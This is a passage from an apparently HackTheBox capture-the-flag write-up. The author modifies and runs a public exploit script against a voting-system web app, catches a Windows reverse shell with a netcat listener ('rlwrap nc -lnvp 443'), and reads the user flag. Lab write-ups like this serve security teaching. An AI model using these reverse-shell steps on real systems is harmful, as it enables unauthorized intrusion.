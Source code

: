 
I'll remove `/votingsystem` from each and save the script.

#### Success

With `nc` still listening on TCP 443 (with `rlwrap` to make the Windows
shell better), I'll run the updated script:



    oxdf@parrot$ python 49445.py 
    Start a NC listener on the port you choose above and run...
    Logged in
    Poc sent successfully



It hangs there, but then there's a connection to `nc` with a shell:



    oxdf@parrot$ rlwrap nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 56061
    b374k shell : connected

    Microsoft Windows [Version 10.0.19042.867]
    (c) 2020 Microsoft Corporation. All rights reserved.

    C:\xampp\htdocs\omrs\images>whoami
    love\phoebe



And I can grab the first flag from the user's desktop:



    C:\Users\Phoebe\Desktop>type user.txt
    69e87892************************



### RCE Manually

Once logged in, there's not a ton to see:
